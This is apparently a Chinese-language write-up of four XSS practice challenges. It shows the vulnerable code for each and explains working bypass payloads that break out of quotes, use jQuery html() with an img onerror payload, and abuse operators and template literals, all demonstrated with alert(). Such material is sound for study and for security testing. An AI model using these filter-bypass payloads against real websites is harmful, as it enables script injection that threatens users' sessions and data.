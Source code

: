## 参考

- [chrome下对js断点调试的方法汇总])(https://www.toolmao.com/342.html)
- [一些BAT的XSS实例（一）](https://mp.weixin.qq.com/s/Nxjn_SUAfrB-K5z6YdlW8g)
- [一些BAT的XSS实例（二）](https://mp.weixin.qq.com/s/Q976z2ryfkEJQiSyl8aH8g)

### 1. http://px1624.sinaapp.com/test/xsstest1/

```html
<script type="text/javascript">
var x=location.hash;
function aa(x){};
setTimeout("aa('"+x+"')",100);
</script>
Give me xss bypass 1~
```

利用js函数的性质：
```js
function myFunction(p1, p2) {
    return p1 * p2;              // 该函数返回 p1 和 p2 的乘积
}

// 普通的计算乘积
myFunction(2,3)
6
// 执行任意js代码
myFunction(2,alert(77),3)
NaN
```

所以这里令x="#',alert(1),'"
即可拼接出：
```
setTimeout("aa('#',alert(1),'')",100);
```
参考setTimeout用法：
```
setTimeout("alert('对不起, 要你久候')", 3000 )
```
参考：https://www.runoob.com/w3cnote/javascript-settimeout-usage.html

准确地，
```
aa('#',alert(1),'')
```
本来aa函数期待1个参数，也可以通过闭合单引号传入三个参数。
或者
```
');alert(1)//
```
闭合前面的单引号和括号，然后执行任意js，然后使用//注释掉后面的代码。
![](imgs/20200618151017.png)

### 2. http://px1624.sinaapp.com/test/xsstest2/

```js
$("#xx")["html"]($("#xx")["text"]());
```
其中
```
$("#xx")["html"]()
```
相当于
```
$("#xx").html()
```
而$("#xx")["text"]()相当于$("#xx").text()

于是

```js
$("#xx")["html"]("<img src=x onerror=alert(1)>")
```
就相当于
```js
$("#xx").html("<img src=x onerror=alert(1)>")
```

其中的知识点为：
> text();设置或者获取所选元素的文本内容；
html();设置或者获取所选元素的内容（包括html标记）；

参考：https://www.cnblogs.com/fozero/p/5916878.html
- 当函数传参时，表示设置；
- 当函数参数为空时，表示选取。

![](imgs/20200618153337.png)

### 3. http://px1624.sinaapp.com/test/xsstest3/

前端的请求参数是px，
但是`<>"`被转义，但是`'`未被转义。
![](imgs/20200618160340.png)
但是在js函数中要确保两条语句都语法正确，否则则无法完成函数执行。
![](imgs/20200618155249.png)

通过`,` 和`;`以及`'`的组合发现无法确保两条语句同时语法正确。答案是利用`*`
完整payload：
```
http://px1624.sinaapp.com/test/xsstest3/?px=aaa%27*alert(77)*%27bbb
```
原来乘法中的被乘数也可以是xss的payload：
![](imgs/20200618155719.png)
当然不止乘法，加法、减法都是可以的。
![](imgs/20200618160001.png)

### 4. http://px1624.sinaapp.com/test/xsstest4/

前端展示差不多，但是后端代码不同了。参考答案是过滤了
```
<>+-*/&|~^%!?=
```
但是没过滤`'"`。这是与第3题的不同。

答案：
```
http://px1624.sinaapp.com/test/xsstest4/?px=%27;`;{alert(%271
```
![](imgs/20200618162412.png)
利用了js的模板字符串可以换行的特点，可以完成普通引号无法完成的语法。（避免中间的引号无法转义的问题）
参考：
https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/template_strings

还有一种解法是利用`in`或者`instanceof`这个语法，因为`in`和`instanceof`也是一种运算符，参考：
https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference
```
http://px1624.sinaapp.com/test/xsstest4/?px=%27in%20alert(1)%20in%27
```
